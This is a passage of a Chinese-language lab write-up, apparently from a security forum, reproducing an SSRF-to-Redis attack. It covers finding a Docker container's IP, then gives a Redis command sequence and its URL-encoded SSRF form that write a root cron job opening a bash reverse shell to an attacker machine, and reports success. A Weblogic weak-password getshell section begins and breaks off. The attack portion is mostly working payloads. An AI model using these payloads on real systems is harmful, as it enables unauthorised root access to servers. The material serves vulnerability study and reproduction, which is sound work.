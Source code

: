 这里查一下开启redis服务的这个容器IP，找到ip：172.20.0.2

```php
docker inspect a5a
```

![image-20210814204200558](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-883358d97ae9ea3bc7630589c26b05b107d2a5dd.png)

可以看见6379的端口存在，且为http协议

![image-20210814204413085](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3ffc03e2042797bbb440f55ca096bba8bbd624f8.png)

本机监听12345端口

![image-20210814204756777](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-318f234cceeeffc44090eefd9d7af584701b1b2a.png)

burp改包直接将弹shell脚本到本机kail上（192.168.0.104）

```php
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.104/12345 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

经过url编码后，写入bp中operator参数的后面:

```php
operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.104%2F12345%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

![image-20210814210942824](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-95fb910178f0da7dba34ea65b84fa7ff17a44c38.png)

![image-20210814211117689](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-944faada5b760fdcb9226fda06894033584a0ace.png)

反弹shell成功。

##### 安全防护

升级高版本。

#### 8.Weblogic弱口令&amp;&amp;后台getshell

##### 漏洞简介

由于管理员的安全意识不强，或者配置时存在疏忽，会导致后台存在弱口令或者默认的用户名/口令。

#### 影响版本

全版本

#### 漏洞复现

通过弱口令登录管理台后，点击部署-&gt;安装

![image-20210814212040819](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-489ec3ef344a5e64bc1cdf55bf3e998a9a3e63b6.png)
